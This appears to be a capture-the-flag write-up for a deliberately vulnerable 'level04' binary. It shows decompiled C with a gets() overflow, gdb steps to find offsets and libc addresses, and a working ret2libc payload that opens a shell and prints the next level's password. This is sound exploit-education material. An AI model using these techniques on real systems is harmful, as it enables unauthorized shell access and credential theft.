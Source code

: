 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  int wait_status;
  int i;
  int j;
  int k;
  char buffer[128];
  __pid_t pid;

  pid = fork();
  memset(buffer, 0, sizeof(buffer));
  k = 0;
  wait_status = 0;
  if ( pid )
  {
    do
    {
      wait(&wait_status);
      i = wait_status;
      if ( (wait_status & 0x7F) == 0 || (j = wait_status, (char)((wait_status & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");w
        return 0;
      }
      k = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( k != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
}
```

### Explanation
This program creates a child process using `fork()`.
The parent process monitores the child process and prevents it to use `execve()` using `ptrace(PTRACE_PEEKUSER)`.
The child process uses `get()` to fill the `buffer` without checking its size.
The vulnerability is found in the child process where `get()` fills `buffer` without checking the number of characters `get()` can accept.
This will enable us to make a buffer overflow and perform a `ret2libc` attack.
This attack consists in overriding the `eip` copy with `system()` address and pass the `/bin/sh` string as parameter in order to open a shell terminal.

First we are going to use gdb command:

```bash
(gdb) set follow-fork-mode child
```
to follow every events happening in the child process instead of the parent process.

Now we need to find the offset to override `eip` copy, we set a breakpoint just behind `get()` and look for the padding to reach `eip` copy.

```bash
(gdb) b *0x08048763
(gdb) r < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
Starting program: /home/users/level04/level04 < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
[New process 1801]
Give me some shellcode, k
[Switching to process 1801]
child is exiting...
Breakpoint 4, 0x08048763 in main ()
(gdb) x/4xw $ebp
0xffffd718:    0x41414141    0x42424242    0x42424242    0x42424242
```

Then we find the address of both functions `system()`, `exit()` and the string `/bin/sh` to perform the attack.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find 0xf7e2c000, 0xf7ffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

## Step 2: Exploiting the Binary

```bash
(python -c 'print ("A" * 156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]';cat) | ./level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```